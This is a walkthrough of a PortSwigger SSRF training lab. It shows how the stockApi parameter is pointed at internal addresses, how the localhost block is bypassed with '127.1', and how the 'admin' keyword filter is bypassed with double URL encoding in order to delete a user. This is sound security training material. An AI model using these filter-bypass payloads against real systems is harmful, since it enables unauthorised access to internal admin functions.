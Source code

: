 ```yaml
---
description: https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter
---
```


# SSRF with blacklist-based input filter

<figure><img src="../../../.gitbook/assets/1 (130).png" alt=""><figcaption></figcaption></figure>

Let's check out the stock.

<figure><img src="../../../.gitbook/assets/2 (121).png" alt=""><figcaption></figcaption></figure>

We can intercept the request using Burpsuite.

<figure><img src="../../../.gitbook/assets/3 (102).png" alt=""><figcaption></figcaption></figure>

Let's send the request to the `Repeater`. We can set the `stockApi` parameter to the following and send the request:

```
http://localhost/admin
```

<figure><img src="../../../.gitbook/assets/4 (84).png" alt=""><figcaption></figcaption></figure>

So that request is blocked.&#x20;

Let's set the `stockApi` parameter to the following and send the request:

```
http://127.1/
```

<figure><img src="../../../.gitbook/assets/6 (55).png" alt=""><figcaption></figcaption></figure>

Ah! That returns a valid response. Let's try visiting the `/admin` page.

```
http://127.1/admin
```

<figure><img src="../../../.gitbook/assets/7 (46).png" alt=""><figcaption></figcaption></figure>

Looks like the `admin` keyword is being pattern-matched and blocked.&#x20;

We can get around it by double URL encoding the string.

<figure><img src="../../../.gitbook/assets/10 (20).png" alt=""><figcaption></figcaption></figure>

Let's now send the following request:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

<figure><img src="../../../.gitbook/assets/9 (25).png" alt=""><figcaption></figcaption></figure>

We can now delete the `carlos` user.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

<figure><img src="../../../.gitbook/assets/11 (10).png" alt=""><figcaption></figcaption></figure>

We have solved the lab.

<figure><img src="../../../.gitbook/assets/12 (6).png" alt=""><figcaption></figcaption></figure>
